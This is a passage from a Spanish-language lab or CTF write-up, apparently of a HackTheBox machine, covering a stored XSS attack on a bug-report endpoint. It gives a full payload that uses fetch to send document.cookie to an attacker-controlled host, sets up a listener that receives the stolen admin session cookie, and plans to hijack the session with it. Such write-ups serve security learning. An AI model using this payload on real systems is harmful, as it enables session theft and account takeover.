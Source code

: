 Vemos que esta utilizando `JSON` para enviar la informacion, si probamos a enviar un `XSS` de esta forma, en la respuesta veremos esto:

```
HTTP/1.1 200 OK
Server: Werkzeug/3.1.3 Python/3.12.7
Date: Fri, 03 Oct 2025 19:23:04 GMT
Content-Type: application/json
Content-Length: 78
Vary: Cookie
Connection: close

{"message":"Bug report submitted. Admin review in progress. ","success":true}
```

Vemos que no dio ningun error, pero tampoco nos dio una informacion visual de si se esta reflejando o no, por lo que vamos a probar un `XSS` que intente obtener la `Cookie` del usuario que le llegue dicho mensaje.

```
POST /report_bug HTTP/1.1
Host: 10.10.11.88:8000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://10.10.11.88:8000/
Content-Type: application/json
Content-Length: 108
Origin: http://10.10.11.88:8000
Connection: keep-alive
Cookie: session=.eJyrVkrJLC7ISaz0TFGyUkq0ME4xTzVMUdJRyix2TMnNzFOySkvMKU4F8eMzcwtSi4rz8xJLMvPS40tSi0tKi1OLkFXAxOITk5PzS_NK4HIgwbzE3FSgHSA1DiBCLzk_V6kWAJosLr0.aOAcVA.cAPdTsCKIzoAvuSshDJoX37uDjk
Priority: u=0

{"bugName":"test","bugDetails":"\"><img src=x onerror=\"fetch('http://10.10.14.64/?c='+document.cookie)\">"}
```

Antes de enviarlo nos pondremos a la escucha para que nos llegue la peticion cuando alguien entre a dicho mensaje.

```shell
python3 -m http.server 80
```

Si esperamos un rato despues de enviar la peticion con `BurpSuite` veremos lo siguiente:

```
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.11.88 - - [04/Oct/2025 03:13:12] "GET /?c=session=.eJw9jbEOgzAMRP_Fc4UEZcpER74iMolLLSUGxc6AEP-Ooqod793T3QmRdU94zBEcYL8M4RlHeADrK2YWcFYqteg571R0EzSW1RupVaUC7o1Jv8aPeQxhq2L_rkHBTO2irU6ccaVydB9b4LoBKrMv2w.aODJBQ.FIjiSGV8BLU_ajCsJdIS0UH9Nkk HTTP/1.1" 200 -
```

Veremos que ha funcionado, vamos a irnos al `Storage` de nuestro navegador e intercambiar la `Cookie` nuestra por la que hemos recibido a ver que pasa.
